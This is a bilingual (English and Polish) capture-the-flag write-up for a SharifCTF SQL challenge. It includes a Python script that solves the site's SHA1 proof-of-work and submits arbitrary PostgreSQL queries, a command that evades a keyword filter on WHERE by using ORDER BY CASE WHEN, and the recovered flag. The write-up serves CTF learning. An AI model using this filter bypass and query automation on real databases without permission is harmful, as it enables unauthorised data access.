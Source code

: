 ﻿## SQL (Pwn, 150p)

> Our website executes your PostgreSQL queries. And flags are nicely formatted. 

###ENG
[PL](#pl-version)

We are given address of webpage that executes our queries on CTF database. There is flag we are looking for in that database. Looks like that challenge is trivial, doesn't it?

![](screen.png)

Unfortunatelly, there are two problems:
 * we have to present PoW (proof of work) before each request
 * query can't contain where, because otherwise engine will refuse to execute it

Whatever, we start with getting column and table names from information_schema. We used simple script for that:

```python
import requests, hashlib, time, sys

def query(sql):
    r=requests.get("http://ctf.sharif.edu:36455/chal/sql/")
    nonce=r.text.split("\n")[7].split(" ")[1]
    i=1
    s=""
    print "Looking for collision"
    start=time.time()
    while True:
        if i%1000000==0:
            print i
            print time.time()-start, "s"
        s=str(i)+nonce
        m=hashlib.sha1()
        m.update(s)
        if m.hexdigest()[0:5]=="00000":
            break
        i+=1
    print "Found collision: "+str(i)
    r=requests.post("http://ctf.sharif.edu:36455/chal/sql/", cookies=r.cookies,
            data={ "pow":str(i), "sql":sql } )
    print r.text
        

query(sys.argv[1])
```

Where may be forbidden, but ORDER BY is not, so we can easily substitute WHERE by it, using ORDER BY (CASE WHEN condition THEN 1 ELSE 0 END).

Implementing that idea...

    python hack.py "select * from messages order by (case when msg like '%Sharif%' then 1 else 0 end) desc"

    ...

    <td>95321145</td>
    <td>SharifCTF{f1c16ea7b34877811e4662101b6a0d30}</td>
    <td>1</td>

Chalegne solved

###PL version

Jest podany adres strony, która uruchamia nasze zapytania SQL na bazie CTFa. W bazie jest flaga. Czy może być prościej?

![](screen.png)

Niestety, są dwa utrudnienia:
 * trzeba przedstawiać PoW przed każdym requestem
 * zaptytanie nie może zawierać "WHERE" (bo inaczej jest odrzucane)

Tak czy inaczej, zaczynamy od zapytanie o kolumny i istniejące tabele (do tabeli information_schema), używając prostego skryptu:

```python
import requests, hashlib, time, sys

def query(sql):
    r=requests.get("http://ctf.sharif.edu:36455/chal/sql/")
    nonce=r.text.split("\n")[7].split(" ")[1]
    i=1
    s=""
    print "Looking for collision"
    start=time.time()
    while True:
        if i%1000000==0:
            print i
            print time.time()-start, "s"
        s=str(i)+nonce
        m=hashlib.sha1()
        m.update(s)
        if m.hexdigest()[0:5]=="00000":
            break
        i+=1
    print "Found collision: "+str(i)
    r=requests.post("http://ctf.sharif.edu:36455/chal/sql/", cookies=r.cookies,
            data={ "pow":str(i), "sql":sql } )
    print r.text
        

query(sys.argv[1])
```

O ile where jest zakazane, to ORDER BY nie jest, więc można łatwo uzyskać interesujący nas rekord używając ORDER BY (CASE WHEN warunek THEN 1 ELSE 0 END).

Implementując ten pomysł...

    python hack.py "select * from messages order by (case when msg like '%Sharif%' then 1 else 0 end) desc"

    ...

    <td>95321145</td>
    <td>SharifCTF{f1c16ea7b34877811e4662101b6a0d30}</td>
    <td>1</td>

Zadanie zrobione.
